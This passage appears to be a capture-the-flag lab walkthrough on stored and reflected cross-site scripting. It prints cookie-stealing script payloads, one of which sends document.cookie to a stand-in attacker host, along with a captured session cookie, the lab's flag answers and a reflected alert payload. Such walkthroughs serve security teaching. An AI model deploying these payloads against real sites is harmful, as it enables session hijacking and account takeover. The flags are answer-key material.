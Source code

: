 `websites_can_be_easily_defaced_with_xss`

5. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

```html
<script>window.location='http://attacker/?cookie='+document.cookie</script>
```

This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim.

Take over Jack's account by stealing his cookie, what was his cookie value?

```html
<script>document.location='/log/'+document.cookie</script>
```

`s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE`

6. Post a comment as Jack.

`Successfully added a comment as Jack! Question answer: c00ki3_stealing_`

`c00ki3_stealing_`

## Task 4 Reflected XSS

In a reflected cross-site scripting attack, the malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarise, an attacker needs to trick a victim into clicking a URL to execute their malicious payload.

This might seem harmless as it requires the victim to send a request containing an attackers payload, and a user wouldn't attack themselves. However, attackers could trick the user into clicking their crafted link that contains their payload via social-engineering them via email..

Reflected XSS is the most common type of XSS attack.

**An example**

![](https://i.imgur.com/yX7zRh8.png)

An attacker crafts a URL containing a malicious payload and sends it to the victim. The victim is tricked by the attacker into clicking the URL. The request could be `http://example.com/search?keyword=<script>...</script>`

The website then includes this malicious payload from the request in the response to the user. The victims browser will execute the payload inside the response. The data the script gathered is then sent back to the attacker (it might not necessarily be sent from the victim, but to another website where the attacker then gathers this data - this protects the attacker from directly receiving the victims data).

1. Craft a reflected XSS payload that will cause a popup saying "Hello"

`http://10.10.51.184/reflected?keyword=<script>alert('Hello')</script>`

`ThereIsMoreToXSSThanYouThink`

1. Craft a reflected XSS payload that will cause a popup with your machines IP address.
